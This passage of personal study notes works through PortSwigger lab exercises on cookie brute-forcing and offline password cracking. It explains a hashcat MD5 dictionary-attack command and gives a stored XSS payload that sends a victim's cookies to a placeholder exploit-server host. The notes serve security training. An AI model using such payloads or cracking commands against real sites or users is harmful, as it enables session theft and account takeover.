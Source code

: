     - Remove your own password from the payload list and add the list of [candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) instead.
    - Change the **Add prefix** rule to add `carlos:` instead of `wiener:`.
10. When the attack is finished, the lab will be solved. Notice that only one request returned a response containing `Update email`. The payload from this request is the valid `stay-logged-in` cookie for Carlos's account.

Analysis:

stay-logged-in: base64(username:md5(password))
![[Pasted image 20241019021103.png]]
**note:**
	is recommended to use an offline hash cracking tool as hashcat (not considered data breaching data)
		`hashcat -a 0 -m 0 file.txt rockyou.txt`

- **`-a 0`**: This specifies the **attack mode**. The value `0` refers to a **dictionary attack**. In a dictionary attack, Hashcat will use each word from a wordlist (in this case, `rockyou.txt`) and attempt to crack the hashes by matching each word against the hash in the `file.txt`.
- **`-m 0`**: This specifies the **hash type**. The value `0` refers to **MD5** hashes. You are telling Hashcat that the hashes in `file.txt` are using the MD5 algorithm, so it will attempt to crack them as MD5 hashes.
- **`file.txt`**: This is the file containing the **hashes** you want to crack. Each hash is assumed to be stored on a separate line in this file.
- **`rockyou.txt`**: This is the **wordlist** file, typically containing a list of common passwords. In this case, the famous **RockYou** password list is being used, which is a large collection of leaked passwords often used in cracking attempts.


- we apply the predefined rules discovered on our first request
	brute-forcing= base64(carlos:md5(X))
	![[Pasted image 20241019022121.png]]

# **9. Offline password cracking**
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

1. With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the `stay-logged-in` cookie is Base64 encoded.
2. In the **Proxy > HTTP history** tab, go to the **Response** to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows:
    `username+':'+md5HashOfPassword`

3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to the exploit server and make a note of the URL.
5. Go to one of the blogs and post a comment containing the following [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) payload, remembering to enter your own exploit server ID:
    `<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`
    